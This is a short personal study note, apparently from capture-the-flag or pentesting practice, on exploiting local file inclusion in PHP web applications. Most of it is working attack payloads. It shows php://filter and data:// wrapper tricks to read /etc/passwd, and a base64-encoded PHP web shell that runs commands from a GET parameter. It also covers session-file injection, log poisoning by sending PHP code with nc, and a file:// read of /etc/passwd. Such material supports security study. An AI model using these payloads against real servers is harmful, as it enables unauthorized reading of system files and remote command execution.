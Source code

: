 ![[target files.png]]

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

##### PHP Wrappers

* `php://filter/convert.base64-encode/resource=/etc/passwd`
* `data:text/plain,<?php%20phpinfo();%20?>`

![[php filter.png]]


![[file links.png]]
We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`



###### Session files
1. Inject `<?php echo phpinfo(); ?>` into session.
2. Access URL to execute the code:
`sessions.php?page=/var/lib/php/sessions/sess_[sessionID]`

###### Log poisoning
```php
$ nc MACHINE_IP 80      
<?php echo phpinfo(); ?>
```

Then using LFI access the log file.

##### LFI

`dataserver=file:///etc/passwd`
